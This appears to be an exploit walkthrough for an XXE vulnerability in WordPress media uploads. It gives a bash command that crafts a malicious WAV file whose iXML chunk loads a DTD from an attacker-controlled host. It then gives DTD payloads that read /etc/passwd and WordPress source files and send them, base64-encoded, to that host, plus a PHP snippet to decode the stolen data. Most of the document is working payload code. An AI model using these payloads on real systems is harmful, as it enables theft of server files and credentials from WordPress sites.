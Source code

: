 * **Server-Side Request Forgery (SSRF)**: HTTP requests could be made on behalf of the WordPress installation. Depending on the environment, this can have a serious impact.

### Exploiting the vulnerability

A wordpress site affected by this vulnerability has been identified in the enumeration process with the help of the wpscan tool.

![img-cen](https://i.imgur.com/mrPwSpA.png)

It has been identified that the author user uses weak credentials.

     user: test-corp
     password: test

![img-cen](https://i.imgur.com/tw7QtLJ.png)

user with permissions for upload media files.

### Creating a malicious WAV file.

It's very easy, in your bash console

```bash
cat poc.wav
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

In your attacker pc create a dtd with the code execute in the web server.

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

Note: for read wordpress files use the syntax "../WP-FILE.php"

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=../index.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

Now up a http server in the folder that created the file.

`php -S 0.0.0.0:PORT`

Now upload the malicious wav

![img-cen](https://i.imgur.com/MkcDIN4.png)

When upload the malicious wav in your server you'll see this output, for this exercise I used zlib library for this razon it's necesary use for decode the base64.

Create a php file whith the code:

```php
<?php
echo zlib_decode(base64_decode('base64her'));
```
